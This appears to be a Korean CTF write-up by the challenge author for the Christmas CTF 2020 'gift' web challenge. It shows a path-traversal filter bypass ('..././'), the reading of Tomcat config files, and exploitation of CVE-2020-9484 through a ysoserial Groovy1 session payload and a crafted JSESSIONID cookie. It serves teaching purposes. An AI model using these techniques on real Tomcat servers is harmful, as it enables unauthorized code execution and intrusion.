 ```yaml
---
title: "[Write-Up] Christmas CTF 2020 - gift"
author: idioth
tags: [idioth, ctf, christmas ctf 2020, web, rce, lfi, tomcat, cve-2020-9484]
categories: [Write-Up]
date: 2020-12-29 21:00:00
cc: true
index_img: /2020/12/29/idioth/christmasctf2020-gift/image0.png
---
```


# 출제 의도

올해 초에 발표된 Apache Tomcat CVE-2020-9484를 이용해서 문제를 만들어보고 싶었습니다. 문제를 만들면서 이 취약점이 있는 서비스를 만들고 싶은데... 만약 이런 사이트가 있었다면 어떤 식으로 취약점에 접근할 수 있을까?라는 생각을 하면서 만들었습니다.

session이 저장되는 위치와 자신이 올린 파일이 업로드되는 위치를 모두 알아야 하고 또 해당 취약점에 취약한 버전이라는 것도 알아야 해서 local에 있는 파일을 모두 볼 수 있으면 되겠다는 생각을 했습니다. ~~lock과 angrforge의 허술함은 여기에서 왔다.~~

RCE를 활용해야 한다는 것과 실행할 파일의 위치를 `special.jsp`에 넣어놨는데 좀 더 잘 보이는 곳에 넣어둘 걸... 하는 생각을 했습니다.

![](christmasctf2020-gift/image.jpg)

제가 웹 알못이다 보니 이런저런 것을 구현할 때 주위의 웹 하는 친구들한테 물어보며 이거 이러이러하게 해서 플래그에 접근하는 건데 게싱이 심하지 않을까? 사람들이 이런 식으로 접근할 수 있을까? 내가 이거 어떻게 하는지 잘 몰라서 이렇게 해봤는데 괜찮을까? 물어보면서 만들었습니다. ~~일단 있는 거 다 해보고 파일은 다 찾아본다며~~

구현을 도와준다던 놈들은 jsp라고 하니까 다 도망가더군요 하하하... 잡설이 길었습니다.

# Solution

![](christmasctf2020-gift/image0.png)

메인 화면입니다. 저기 깃발(flag) 모양에 Special gift가 숨겨져 있다!라고 되어있습니다. 이걸 description에 적어놨으면 참 좋았을걸 왜 안 적어놨지? 일단 로그인을 해야 기능을 볼 수 있는 것 같으니 로그인을 해봅시다.

![](christmasctf2020-gift/image1.png)

로그인을 하면 제공하는 기능을 볼 수 있습니다. 사이트에서 제공하는 기능을 정리하면 아래와 같습니다.

- `Gift List`
    - 전송한 선물의 리스트를 볼 수 있다.
    - file name을 `GET`을 통해 받는다.
- `Send List`
    - 선물을 전송할 수 있다.
- `Community`
    - 게시판 기능으로 글을 작성할 수 있다.

선물을 전송하면 산타가 그 선물을 준다고 하고 gift list에서 올린 선물 리스트의 내용을 확인할 수 있으니 일단 `Send List`를 통해 선물을 전송하고 난 후 `Gift List`에서 어떠한 식으로 확인할 수 있는지를 확인해봅시다.

![](christmasctf2020-gift/image2.png)

txt 파일과 자신들의 secret한 파일만 올릴 수 있다고 하니 일단 txt 파일을 올려봅시다.

![](christmasctf2020-gift/image3.png)

전송이 완료된 후 `Gift List`를 통해 파일 리스트를 확인하면 `<name>`'s gift list라는 제목과 함께 업로드한 파일이 표시가 되고 해당 파일의 내용을 확인할 수 있습니다.

![](christmasctf2020-gift/image4.png)

![](christmasctf2020-gift/image5.png)

gift list를 불러올 때 사용되는 `<name>`은 `GET`을 통해 불러오는 것으로 추정되므로 해당 인자 값을 수정해봅니다.

![](christmasctf2020-gift/image6.png)

name을 변경하자 testa's gift list를 읽어오고 아무것도 출력이 안 되는 것을 볼 수 있습니다.

name에 따라 다른 디렉터리를 생성하고 해당 폴더에 파일이 올라간다는 가설을 세우고 path traversal이 가능한지 확인을 해봅시다.

![](christmasctf2020-gift/image7.png)

name에 `.`을 입력하자 아까 위에서 확인한 두 개의 폴더가 나옵니다. 더 위로 올라가 봅시다.

`../`나 `....//`은 필터링이 되어 있어 디렉터리 리스팅이 불가능하지만 `..././`은 가능합니다.

![](christmasctf2020-gift/image8.png)

해당 폴더에 진입하면 gift 폴더 안에서 username으로 gift list가 관리되고 있음을 알 수 있습니다.

![](christmasctf2020-gift/image9.png)

한 번 더 올라가면 이러한 디렉터리가 보입니다. tomcat의 상위 디렉터리인데 이를 통해 tomcat을 통해 구동되고 있음을 확인할 수 있습니다. 먼저 웹페이지 소스코드 파일은 webapps에 들어있으므로 해당 디렉터리를 들어가서 어떠한 파일이 있는지 확인해봅시다.

![](christmasctf2020-gift/image10.png)

`special.jsp`라는 파일이 있네요. 메인에서 special gift가 숨겨져 있다고 했으니 해당 jsp를 확인해봅시다.

![](christmasctf2020-gift/image11.png)

`special_gift` 파일을 찾아서 실행하면 이 디렉터리에서 특별한 선물을 볼 수 있다고 합니다.

tomcat 디렉터리로 가서 RELEASE-NOTES의 내용을 확인해봅시다.

![](christmasctf2020-gift/image12.png)

tomcat-8.5.54 버전에서 동작하고 있습니다. 해당 버전은 CVE-2020-9484 버전에 영향을 받는 버전이고 해당 취약점에 영향을 받는지 확인하는 방법은 아래와 같습니다.

- tomcat이 session을 PersistenceManager를 통해 세션을 관리함
- FileStore를 통해 Directory 경로를 지정함
- arbitrary file upload가 가능하며 해당 파일이 어디에 저장되는지 알 수 있음

현재 arbitrary file upload가 가능하며 파일이 업로드되는 위치도 알 수 있으므로 `conf/context.xml`을 통해 PersistenceManager를 사용 중인지, 사용 중이라면 FileStore로 Directory를 지정해서 저장하는지, 저장한다면 session이 저장되는 경로는 어딘지 확인합시다.(아까 위에서 sessions 폴더를 본 것 같긴 한데)

`detail.jsp?file=..././..././..././conf/context.xml`로 접근하면 `conf/context.xml`의 내용을 확인할 수 있다.

![](christmasctf2020-gift/image13.png)

PersistentManager, FileStore를 사용하며 session이 저장되는 경로는 `/usr/local/tomcat/sessions`네요.

해당 취약점은 session을 deserialize 하면서 일어나는 취약점이므로 gadget도 확인해봅시다.

![](christmasctf2020-gift/image14.png)

`/lib` 폴더에 `groovy-2.3.9.jar` 가 존재하는 것을 알 수 있습니다.

이제 `special_gift` 파일의 위치를 찾아보면

![](christmasctf2020-gift/image15.png)

![](christmasctf2020-gift/image16.png)

최상위 경로에 있는 것을 볼 수 있습니다.(이것도 위치를 알려줬어야...ㅠㅠ) 이제 해당 취약점을 활용하여 `special_gift` 바이너리를 실행하면 `/webapps/ROOT` 에 flag 파일이 생성될 것입니다.

그전에 해당 취약점을 활용하는 것이 맞는지 upload.jsp의 내용으로 올릴 수 있는 special file이 session 파일인지 확인해봅시다.

![](christmasctf2020-gift/image17.png)

허용되어있는 확장자가 `.txt`와 `.session`파일임을 알 수 있습니다!

![](christmasctf2020-gift/image18.png)

흠.. 일단 exploit 과정을 정리하면 다음과 같습니다.

- file이 업로드되는 경로는 `tomcat/media/gift/<name>`이다.
- sessions이 저장되는 경로는 `tomcat/sessions`이다.
- `special.jsp` 에 따르면 `/special_gift`를 실행하면 flag 파일이 생성된다.
- `/bin/bash -c /special_gift`를 수행하면 `special_gift` 파일이 실행되고 flag를 확인할 수 있다.
- serialize session 생성

```
idioth@ubuntu:~$ java -jar ysoserial.jar Groovy1 "/bin/bash -c /special_gift" > exploit.session
WARNING: An illegal reflective access operation has occurred
WARNING: Illegal reflective access by org.codehaus.groovy.reflection.CachedClass$3$1 (file:/home/idioth/ysoserial.jar) to method java.lang.Object.finalize()
WARNING: Please consider reporting this to the maintainers of org.codehaus.groovy.reflection.CachedClass$3$1
WARNING: Use --illegal-access=warn to enable warnings of further illegal reflective access operations
WARNING: All illegal access operations will be denied in a future release
```

- 해당 session file으로 접근

```
idioth@ubuntu:~$ curl 'http://192.168.48.128/index.jsp' -H 'Cookie:JSESSIONID=../media/gift/test/exploit'
<!doctype html><html lang="en"><head><title>HTTP Status 500 – Internal Server Error</title><style type="text/css">body {font-family:Tahoma,Arial,sans-serif;} h1, h2, h3, b {color:white;background-color:#525D76;} h1 {font-size:22px;} h2 {font-size:16px;} h3 {font-size:14px;} p {font-size:12px;} a {color:black;} .line {height:1px;background-color:#525D76;border:none;}</style></head><body><h1>HTTP Status 500 – Internal Server Error</h1></body></html>
```

![](christmasctf2020-gift/image19.png)

![](christmasctf2020-gift/image20.png)

XMAS{0mg_u_f1nd_a_sp3cia1_g1ft!!}